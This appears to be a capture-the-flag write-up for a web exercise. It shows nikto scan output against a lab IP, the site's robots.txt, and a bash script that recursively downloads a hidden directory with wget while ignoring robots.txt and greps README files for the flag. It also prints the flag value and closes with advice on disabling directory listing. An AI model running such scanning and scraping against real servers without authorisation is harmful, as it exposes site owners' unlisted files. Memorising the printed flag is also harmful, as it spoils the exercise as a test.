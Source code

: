 
first step check robots.txt

info lerned from [Motasem Hamdan](https://youtu.be/9b2Uj4cCCPw) channel

```
nikto -h 10.12.100.231

+ Entry '/whatever/' in robots.txt returned a non-forbidden or redirect HTTP code (200)
+ Entry '/.hidden' in robots.txt returned a non-forbidden or redirect HTTP code (301)
+ "robots.txt" contains 2 entries which should be manually viewed.
```

```
User-agent: *
Disallow: /whatever
Disallow: /.hidden
```

"User-agent: *," indicates that the instructions that follow apply to all web robots.

"Disallow: /whatever" and "Disallow: /.hidden," specify two directories on the website that the web robots should not crawl or index.

```bash
#!/bin/bash

if [ $# -lt 1 ]; then
  echo "Usage: $0 <IP address>"
  exit 1
fi

IP=$1

# Create the download directory on the user's Desktop
DOWNLOAD_DIR="$HOME/Desktop/download_hidden"
mkdir -p "$DOWNLOAD_DIR"

# Change to the download directory
cd "$DOWNLOAD_DIR"

echo "Downloading files from http://$IP/.hidden/ ..."

if wget -np -r -e robots=off "http://$IP/.hidden/" > download.log 2>/dev/null; then
  echo "\n\nDownload complete.\n"
  echo "Searching for files named README that contain digits ...\n\n"
  find . -name "README" -type f -print0 | xargs -0 grep -Hn '[0-9]'
else
  echo "Error: Failed to download files from http://$IP/.hidden/"
  exit 1
fi
```

here is your flag : `d5eec3ec36cf80dce44a896f961c1831a05526ec215693c8f2c39543497d4466`


## # Prevention

To prevent the web server from displaying a directory listing, like the "autoindex" feature in Nginx, we can disable the directory listing functionality.

In order to achieve this, we need to configure our web server to not show the contents of a directory when there is no index file present. This ensures that if a user accesses a directory URL, the web server will not display a listing of the files and directories within that directory.

The exact method to disable directory listing depends on the web server software we are using. However, in general, we would typically need to modify the web server configuration file and add directives to disable directory listing.